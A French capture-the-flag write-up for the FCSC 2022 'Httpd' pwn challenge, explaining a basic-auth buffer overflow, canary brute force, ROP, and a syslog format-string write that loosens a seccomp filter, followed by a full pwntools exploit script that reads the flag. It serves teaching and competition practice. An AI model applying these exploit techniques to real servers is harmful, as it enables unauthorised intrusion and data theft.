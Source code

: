 #### Httpd

était un challenge de pwn du FCSC 2022 donc..

plus ou moins inspiré du challenge protostar

https://www.youtube.com/watch?v=MBz5C9Wa6KM

ou un process fils doit exploiter le processus parent via une format string dans syslog.

Le challenge d'origine a été durci par une sandbox, et toutes les protections du binaire sont activées,

canary, PIE, etc...

la vulnerabilité du processus fils qui parse les headers HTTP, se trouve dans checkauth()

la chaine en base64 de l'authentification basic du header HTTP, n'est pas vérifiée en longueur

et est décodée dans un buffer char creds[256];

ce qui cause un buffer overflow..

On procèdera donc au début à un bruteforce du canary, et de la valeur de l'adresse de retour afin de contourner l'ASLR.

Une fois ce bruteforce exécuté, on connait donc l'addresse de mappage en mémoire du binaire du fils (et du parent par conséquent, car fork préserve les addresses de mapping)

On va envoyer un ROP dans le fils qui va réécrire une format string dans la chaine stockéee dans la shared memory partagée entre le fils et le parent..et qui sera envoyé dans syslog() pour logguer l'utilisateur se connectant..

grâce à cette format string , on modifie dans la .bss le seccomp en place pour authoriser le syscall open,

et on lit et dump le flag, maintenant qu'on peut écrire un ROP open read write classique..

comme dans cet exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import base64

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("./httpd_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

if args.REMOTE:
  duration = 0.2
else:
  duration = 0.01

host, port = "challenges.france-cybersecurity-challenge.fr", "2058"

def genpayload(data):
  p = ''
  p += 'GET / HTTP/1.1\r\n'
  p += 'Host: ansimorons.com:8080\r\n'
  p += 'Connection: keep-alive\r\n'					# keep alive is important to keep connection open between payloads, (bool keepalive;  in struct shared)
  p += 'Authorization: Basic '+base64.b64encode(data)+'\r\n\r\n'
  return p


#--------------------------------------------------- START
print('bruteforcing canary...patience...')
canary = b'\x00'		# we already know that canary LSB is zero
if args.REMOTE:
  p = connect(host, port)
else:
  p = process(exe.path)
while(len(canary)<8):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00')+ canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag', timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

canary += 'A'*8+'\x9e'		# we already know return address lsb (0x9e)
while(len(canary)<24):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00') + canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag.',drop=True, timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

# ok , after bruteforcing the return address, we can calculate the program base
prog = u64(canary[16:24]) - 0x289e
print('prog base = '+hex(prog))

exit_success = prog + 0x1663	# exit returning success
puts = prog + exe.sym['puts']
puts_got = prog + exe.got['puts']

set_csu = prog + 0x2a9a
call_csu = prog + 0x2a80
pop_rdi = prog + 0x0000000000002aa3 # pop rdi ; ret
pop_rsi = prog + 0x0000000000002aa1 # pop rsi ; pop r15 ; ret

def csucall(func,arg1,arg2,arg3):
  return p64(set_csu)+p64(0)+p64(1)+p64(arg1)+p64(arg2)+p64(arg3)+p64(func)+p64(call_csu)+p64(0)*7

# leak libc address from got
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
payload += p64(pop_rdi)+p64(puts_got)+p64(puts)+p64(exit_success)
p.send(genpayload(payload))
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.sym['puts']
print('libc base = '+hex(libc.address))
binsh = libc.address + 0x1abf05

#---------------------------------
# libc gadgets that we will use
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall', 'ret'])[0]
xchg_eax_edi = libc.address + 0x0000000000097ac5 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x0000000000096716 # xchg eax, edx ; ret
bss = prog + + exe.bss(0xa00)

#---------------------------------------------------------------------------------------
# ebpf filter rewrite with the format string
#---------------------------------------------------------------------------------------
off_read = 0x503c
off_write = 0x5044
off_sigreturn = 0x504c
off_exit = 0x5054
off_brk = 0x505c

context.log_level = 'debug'

def set_bpf(offset,val):
  global prog
  return '%'+str(250+val)+'c%12$hhnAAAAAA'+p64(prog+offset)

# we change authorized sigreturn syscall in the ebpf filter, to open syscall
payload2 = set_bpf(off_sigreturn, 2)	# return success always
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
# we read our format string into the shared memory zone, over the admin login..
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(libc.address + 0x1ed000+2) + p64(pop_rdx) + p64(len(payload2)) + p64(pop_rax)+p64(0)+p64(syscall)
payload += p64(exit_success)
p.send(genpayload(payload))
p.send(payload2)

#----------------------------------------------------------------------------
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16] 
# file name we want to read
fname = 'flag.txt\x00'
# send data
#payload += p64(pop_rdx) + p64(0x10) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(prog) + p64(pop_rax) + p64(1) + p64(syscall)
# read filename and store it in the bss
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(len(fname)) + p64(pop_rax)+p64(0)+p64(syscall)
# open filename
payload += p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall)
# read file
payload += p64(xchg_eax_edi) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(0x200) + p64(pop_rax)+p64(0)+p64(syscall)
# dump it to stdout
payload += p64(xchg_eax_edx) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss) + p64(pop_rax) + p64(1) + p64(syscall) + p64(exit_success)

p.send(genpayload(payload))
#buff = p.recv(0x10)
p.send(fname)

print(hexdump(p.recv()))

p.interactive()

```

